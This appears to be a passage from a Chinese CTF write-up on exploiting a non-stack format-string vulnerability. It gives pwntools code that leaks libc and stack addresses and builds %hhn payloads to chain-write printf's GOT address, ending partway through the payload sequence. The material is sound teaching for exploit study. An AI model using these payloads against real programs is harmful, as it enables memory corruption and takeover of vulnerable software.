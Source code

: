 可以泄露一些栈上的数据，来计算libc的地址

1.  #泄露__libc_start_main的地址  
2.  sh.sendlineafter('Please input your password:','%15$p')  

4.  sh.recvuntil('0x')  
5.  __libc_start_main_addr = int(sh.recvuntil('\n',drop=True),16) - 0xF1  
6.  **print** hex(__libc_start_main_addr)  
7.  libc = LibcSearcher('__libc_start_main',__libc_start_main_addr)  
8.  libc_base = __libc_start_main_addr - libc.dump('__libc_start_main')  
9.  system_addr = libc_base + libc.dump('system')  
10.  **print** 'libc_base=',hex(libc_base)  
11.  **print** 'system_addr=',hex(system_addr)  

现在，有了一些需要的地址了，我们考虑怎么来写printf的GOT表，常规的栈格式化字符串漏洞，我们只需将地址放入字符串即可，因为字符串存在了栈里，但是**非栈上的字符串，我们就不能这样操作了，我们需要借助格式化漏洞，先修改栈里的数据，改成需要的地址。**

![](img/719f29edff9a7a7409aefeab2823bc52.png)

我们**用****%6$hhn****来修改%10$****处的数据，然后利用%10$hhn****来修改%14$****处的数据，使得%14$****处为printf****的GOT****表地址，同样的方法，让%15$****处为printf_got + 1****的值**，这样，我们在printf里用%14$hhn和%15$hn一次性完成对printf的got表数据后3字节完成了修改。第一个字节不用修改，因为都是一样的值。

为了完成这个操作，我们就还需要泄露栈的地址

1.  sh.sendlineafter('Try again!\n','%6$p')  
2.  sh.recvuntil('0x')  
3.  stack_addr0 = int(sh.recvuntil('\n',drop=True),16)  
4.  **print** hex(stack_addr0)  
5.  sh.sendlineafter('Try again!\n','%10$p')  
6.  sh.recvuntil('0x')  
7.  stack_addr1 = int(sh.recvuntil('\n',drop=True),16)  
8.  **print** hex(stack_addr1)  

接下来，我们要在14处写入printf的got表地址**0x804B014**

1.  #写栈14$处的低1字节为0x14  
2.  payload = '%' + str(0x14) + 'c%10$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  
4.  #变更10处的地址，+1  
5.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
6.  sh.sendlineafter('Try again!\n',payload)  
7.  #写栈14$处的低2字节为0xB0  
8.  payload = '%' + str(0xB0) + 'c%10$hhn'  
9.  sh.sendlineafter('Try again!\n',payload)  
